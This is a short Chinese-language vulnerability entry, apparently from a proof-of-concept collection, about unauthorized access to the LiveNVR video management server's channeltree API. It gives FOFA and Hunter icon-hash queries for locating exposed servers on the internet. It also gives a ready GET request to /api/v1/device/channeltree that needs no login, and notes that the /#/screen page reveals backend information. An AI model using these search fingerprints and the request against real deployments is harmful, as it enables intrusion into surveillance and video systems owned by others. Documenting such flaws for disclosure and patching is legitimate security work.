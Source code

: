 # LiveNVR流媒体服务软件接口存在未授权访问漏洞

livenvr 青柿视频管理系统 channeltree 存在未授权访问漏洞。

## fofa

```yaml
icon_hash="-206100324" 
```
![image](https://github.com/user-attachments/assets/5d789c59-140a-4d59-870b-7a1f2d28b69e)

## hunter

```yaml
web.icon=="7bfff01de80c14288ff385cd7db83c56"
```

## poc

```yaml
GET /api/v1/device/channeltree?serial=&pcode HTTP/1.1
Host: 
```

![image-20240719130739033](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407191307146.png)

接口访问` /#/screen ` 可以看到后台信息了

![image-20240719130703174](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407191307314.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/whXXvwzZpfj19B7unFCrjg
